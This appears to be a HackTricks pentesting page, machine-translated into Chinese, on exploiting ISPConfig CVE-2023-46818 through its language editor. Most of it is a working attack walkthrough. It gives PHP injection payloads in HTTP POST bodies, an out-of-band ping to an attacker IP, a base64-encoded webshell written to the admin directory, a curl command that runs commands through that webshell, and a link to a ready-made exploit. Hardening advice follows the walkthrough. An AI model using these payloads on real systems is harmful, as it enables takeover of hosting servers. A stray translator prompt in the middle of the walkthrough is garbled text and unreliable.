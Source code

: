 # ISPConfig

{{#include ../../banners/hacktricks-training.md}}

## 概述

ISPConfig 是一个开源的托管控制面板。较旧的 3.2.x 构建包含一个语言文件编辑器功能，当为超级管理员启用时，允许通过畸形的翻译记录注入任意 PHP 代码。这可能在 web 服务器上下文中导致 RCE，并且取决于 PHP 的执行方式，可能引起权限提升。

关键默认路径：
- 当使用 `php -S` 或通过 Apache/nginx 提供服务时，Web 根目录通常位于 `/var/www/ispconfig`。
- 管理界面可通过 HTTP(S) vhost 访问（有时仅绑定到 localhost；如有需要，使用 SSH 端口转发）。

提示：如果面板绑定在本地（例如 `127.0.0.1:8080`），请进行端口转发：
```bash
ssh -L 9001:127.0.0.1:8080 user@target
# then browse http://127.0.0.1:9001
```
## 语言编辑器 PHP 代码注入 (CVE-2023-46818)

- Affected: ISPConfig up to 3.2.11 (fixed in 3.2.11p1)
- Preconditions:
- Login as the built-in superadmin account `admin` (other roles are not affected according to the vendor)
- Language editor must be enabled: `admin_allow_langedit=yes` in `/usr/local/ispconfig/security/security_settings.ini`
- Impact: Authenticated admin can inject arbitrary PHP that is written into a language file and executed by the application, achieving RCE in the web context

References: NVD entry CVE-2023-46818 and vendor advisory link in the References section below.

### 手动利用流程

1) 打开/创建一个语言文件以获取 CSRF 令牌

发送第一次 POST 以初始化表单，并从 HTML 响应中解析 CSRF 字段（`csrf_id`, `csrf_key`）。示例请求路径：`/admin/language_edit.php`.

2) 通过 records[] 注入 PHP 并保存

提交第二次 POST，包含 CSRF 字段和一个恶意的翻译记录。最小命令执行探针：
```http
POST /admin/language_edit.php HTTP/1.1
Host: 127.0.0.1:9001
Content-Type: application/x-www-form-urlencoded
Cookie: ispconfig_auth=...

lang=en&module=admin&file=messages&csrf_id=<id>&csrf_key=<key>&records[]=<?php echo shell_exec('id'); ?>
```
带外测试（监测 ICMP）：
```http
records[]=<?php echo shell_exec('ping -c 1 10.10.14.6'); ?>
```
3) 写入文件并部署 webshell

使用 `file_put_contents` 在可被 web 访问的路径下创建文件（例如 `admin/`）：
```http
records[]=<?php file_put_contents('admin/pwn.txt','owned'); ?>
```
然后写一个简单的 webshell，使用 base64 来避免 POST body 中的坏字符：
```http
records[]=<?php file_put_contents('admin/shell.php', base64_decode('PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pIDsgPz4K')); ?>
```
请粘贴 src/network-services-pentesting/pentesting-web/ispconfig.md 的内容，我会按要求将其中需要翻译的英文翻译为中文，保留代码、标签、链接和路径不翻译。
```bash
curl 'http://127.0.0.1:9001/admin/shell.php?cmd=id'
```
如果 PHP 以 root 身份执行（例如，通过 `php -S 127.0.0.1:8080` 由 root 启动），则会立即导致 root RCE。否则，你将获得作为 web 服务器用户的代码执行权限。

### Python PoC

一个现成的 exploit 会自动处理 token 并传送 payload：
- [https://github.com/bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

示例运行：
```bash
python3 cve-2023-46818.py http://127.0.0.1:9001 admin <password>
```
### 硬化

- 升级到 3.2.11p1 或更高版本
- 禁用语言编辑器，除非确有必要:
```
admin_allow_langedit=no
```
- 不要以 root 身份运行面板；配置 PHP-FPM 或 Web 服务器以降低运行权限
- 为内置的 `admin` 账户强制使用强认证

## 参考资料

- [ISPConfig 3.2.11p1 Released (fixes language editor code injection)](https://www.ispconfig.org/blog/ispconfig-3-2-11p1-released/)
- [CVE-2023-46818 – NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- [bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)
- [HTB Nocturnal: Root via ISPConfig language editor RCE](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)

{{#include ../../banners/hacktricks-training.md}}
